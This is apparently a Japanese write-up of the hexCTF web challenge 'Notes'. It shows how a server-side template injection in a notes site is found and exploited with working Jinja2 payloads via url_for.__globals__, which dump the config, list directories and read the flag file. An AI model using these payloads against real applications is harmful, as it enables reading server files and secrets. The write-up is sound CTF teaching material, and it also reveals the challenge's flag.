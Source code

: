 # Notes:Web:881pts
[http://challenges2.hexionteam.com:2001](http://challenges2.hexionteam.com:2001)  

# Solution
URLにアクセスすると次のようなページが開く。  
[site.png](site/site.png)  
どうやら買い物のメモを保存しておくサイトのようで、ソースを見てやると/notesが存在するらしい。  
"{{"を入力してやると/notesで500エラーが発生する。  
サーバーサイドテンプレートインジェクションをにらんで`{{config}}`を入力すると/notesは以下になる。  
[{{config}}入力]({{config}}.html)  
ここからSECRET_KEYを奪い、セッションを偽装するのかと考えたが違うようだ。  
サーバーのファイルを読み取りにいく。  
`{{url_for.__globals__.__getitem__('os').listdir('./')}}`を入力すると/notesは以下になる。  
```text
["['.bash_logout', '.bashrc', '.profile', '__pycache__', 'server.py', 'templates', 'flag']"]
```
flagなるファイルがあるようだ。  
`{{url_for.__globals__.__getitem__('__builtins__').__getitem__('open')('flag').read()}}`を入力し表示する。  
```text
["hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput} "]
```

## hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}